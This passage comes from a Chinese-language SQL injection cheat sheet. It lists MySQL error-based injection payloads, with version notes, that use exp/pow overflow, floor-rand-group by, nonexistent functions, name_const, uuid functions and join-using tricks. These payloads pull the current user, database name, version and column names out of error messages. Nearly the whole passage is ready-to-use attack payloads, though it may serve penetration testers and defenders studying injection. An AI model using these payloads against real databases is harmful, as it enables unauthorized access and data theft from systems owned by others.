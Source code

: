 #### 6.2 exp、pow、溢出

**适用版本：**5.5.5~5.5.49

```sql
select exp(~(select * from(select user())a));
select pow(2,~(select * from(select user())a));
select 1+(~(select * from(select user())a));
```

#### 6.3 floor双注入查询

rand+group+count

**利用：**

```text
select count(*),concat(user(),"=",floor(rand(0)*2)) as x from information_schema.tables group by x;
```

原理分析见：rand+group+count报错注入分析：[rand+group+count报错注入分析 (wolai.com)](https://www.wolai.com/iqMd347vhPFtzdQeEqeR49)

#### 6.4 不存在函数

通过不存在函数报错得到当前数据库名

```sql
select a();
ERROR 1305 (42000): FUNCTION test.a does not exist
```

#### 6.5 name_const

查询数据库版本

```sql
select * from(select name_const(version(),1),name_const(version(),1))a;
```

#### 6.6 uuid

**适用版本：**8.0.x

**利用：**

```sql
select uuid_to_bin((database()));
select bin_to_uuid((database()));
```

#### 6.7 join using

查询字段名

```sql
select * from(select * from tb1 a join(select * from tb1)b)c;
select * from(select * from tb1 a join(select * from tb1)b using(cl1))c;
select * from(select * from tb1 a join(select * from tb1)b using(cl1,cl2))c;
```
